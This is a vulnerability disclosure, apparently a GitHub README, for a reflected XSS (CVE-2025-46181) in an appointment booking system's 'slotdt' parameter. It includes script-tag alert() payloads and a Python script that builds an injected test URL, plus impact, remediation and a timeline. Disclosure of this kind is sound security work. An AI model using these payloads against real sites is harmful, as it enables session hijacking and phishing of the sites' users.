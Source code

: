 # CVE-2025-46181 - Reflected XSS in an Online Appointment Booking System

**CVE-ID**: CVE-2025-46181  
**Discovered by**: Shemkumar P ([shemkumar.github.io](https://shemkumar.github.io))  
**Vulnerability Type**: Reflected Cross-Site Scripting (XSS)  
**Severity**: Medium  
**Status**: Disclosed, CVE Assigned by MITRE

---

## ✨ Description

A **Reflected Cross-Site Scripting (XSS)** vulnerability exists in a public online appointment booking system (v1.0), specifically in the page that handles appointment confirmation. A GET parameter fails to sanitize input properly, enabling JavaScript injection and code execution in the victim’s browser.

---

## 📍 Vulnerable Parameter

```
GET /confirmapp.php?slotdt=<payload>
```

**Example Payload (Encoded)**:
```
<script>alert("XSS")</script>
```

---

## 💥 Proof of Concept (PoC)

```html
<script>alert("You have been hijacked")</script>
```

🚫 **Live link redacted for ethical reasons.** This vulnerability was tested in a controlled environment.

---

## ⚙️ Python PoC Script

```python
import requests
from urllib.parse import quote

base_url = "https://[REDACTED]/confirmapp.php"
payload = '<script>alert("XSS triggered")</script>'

params = {
    'fullname': 'test',
    'mobile': '9999999999',
    'emailid': 'test@example.com',
    'slotdt': payload,
    'slottime': '11:00:00',
    'doctorid': '2'
}

encoded = '&'.join(f"{k}={quote(str(v))}" for k, v in params.items())
print("Test URL (use only in authorized test environments):")
print(f"{base_url}?{encoded}")
```

---

## 🛡️ Impact

- Arbitrary JavaScript execution
- Potential session hijacking
- Clickjacking or phishing redirection
- Targeted attacks through crafted links

---

## 🧪 Remediation

The application should:
- Escape user inputs using `htmlspecialchars()` in PHP
- Use a Content Security Policy (CSP)
- Sanitize user data at both client and server sides

---

## 📜 Timeline

- **Discovered**: May 2025  
- **CVE Assigned by MITRE**: June 2025  
- **Public Release**: June 2025  

---

## 🧑‍💻 Author

**Shemkumar P**  
🕸️ [shemkumar.github.io](https://shemkumar.github.io)  
🔐 Cybersecurity Researcher | CTF Enthusiast | CVE Reporter

---

> ⚠️ This publication is for educational and defensive use only. Testing or exploiting vulnerabilities on systems you don’t own or have explicit permission for is illegal and unethical.

